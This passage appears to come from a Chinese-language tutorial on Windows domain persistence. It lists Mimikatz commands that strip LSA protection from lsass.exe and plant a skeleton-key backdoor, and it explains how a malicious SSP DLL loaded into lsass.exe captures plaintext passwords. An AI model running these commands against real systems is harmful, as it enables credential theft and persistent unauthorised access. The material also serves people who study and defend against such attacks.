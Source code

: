 #### [](#225-%E7%BB%95%E8%BF%87-lsa-protection)2.2.5 绕过 LSA Protection

Mimikatz 命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```powershell<br>privilege::debug<br>!+<br>!processprotect /process:lsass.exe /remove<br>misc::skeleton<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209095049.png-water_print](assets/1699409504-d71e2099fc0bd2aad070539dbd56547f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209095049.png-water_print")

### [](#23-ssp-%E5%8A%AB%E6%8C%81)2.3 SSP 劫持

**SSP**

> SSP (Security Support Provider)，是 windows 操作系统安全机制的提供者。简单的说，SSP 就是 DLL 文件，主要用于 windows 操作系统的身份认证功能，例如 NTLM、Kerberos、Negotiate、Secure Channel(Schannel)、Digest、Credential(CredSSP)

**SSPI**

> SSPI(Security Support Provider Interface) 是 windows 操作系统在执行认证操作时使用的 API 接口。可以说 SSPI 就是 SSP 的 API 接口。

**LSA**

> Local Security Authority，用于身份认证，常见进程为 lsass.exe

如果获得目标系统 system 权限，可以使用该方法进行持久化操作。其主要原理是：LSA(Local Security Authority) 用于身份验证。Isass.exe 作为 windows 的系统进程，用于本地安全和登录策略；

在系统启动时，SSP 将被加载到 lsass.exe 进程中。但是，假如攻击者对 LSA 进行了扩展，自定义了恶意的 DLL 文件在系统启动时将其加载到 lsass.exe 进程中，就能够获取 lsass.exe 进程中的明文密码。这样即使用户更改密码并重新登录，攻击者依然可以获得该账号的新密码。

